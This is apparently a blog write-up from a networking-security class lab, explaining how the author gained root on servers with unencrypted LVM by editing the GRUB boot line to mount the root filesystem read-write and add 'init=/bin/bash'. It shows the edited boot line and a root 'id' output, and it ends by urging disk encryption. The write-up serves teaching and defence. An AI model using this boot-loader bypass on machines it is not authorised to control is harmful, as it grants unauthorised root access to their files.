 ```yaml
---
title: "Fastest Privesc on Grub"
description: "Imagine a world without encrypted LVM"
authors: ["FreezingKas"]
publish_date: "2022-12-13"
tags : ["System", "Privesc"]
---
```

# Fastest Privesc on Grub 
## Context

During Networking Security class, i had a lab with seven servers on a Proxmox created by our teacher without a root user.

After reporting all privilege escalations with `sudo` commands, my teacher decided to disable all the `sudo` commands until he could find a solution.

Unfortunately, it was not enough.

## Privesc

Grub is a boot loader that allows you to choose which operating system to boot.

It was installed on the servers, and I could edit startup scripts :

```bash
recordfail
load_video
gfxmode $linux_gfx_mode
insmod gzio
if [ x$grub_platform = xxen ]; then insmod xzio; insmod lzopio; fi
insmod part_gpt
insmod ext2
search --no-floppy --fs-uuid --set=root <UUID>
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
initrd /boot/initrd.img-5.15.0-56-generic
```

In our case, the LVM was not encrypted, so we could access files by spawning a root shell :

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
```

Just change `ro` (read_only) to `rw` (read-write) and add init=/bin/bash at the end of the line, then reboot the server.

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> rw quiet splash $vt_handoff init=/bin/bash
```

We can now access the root user.

```bash
root@(none):/$ id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

Please encrypt your LVMs. Imagine it was not a lab, but an enterprise laptop with confidential documents.
When you encrypt LVM you can't read files when changing `ro` to `rw` in the grub file, passphrase is required.
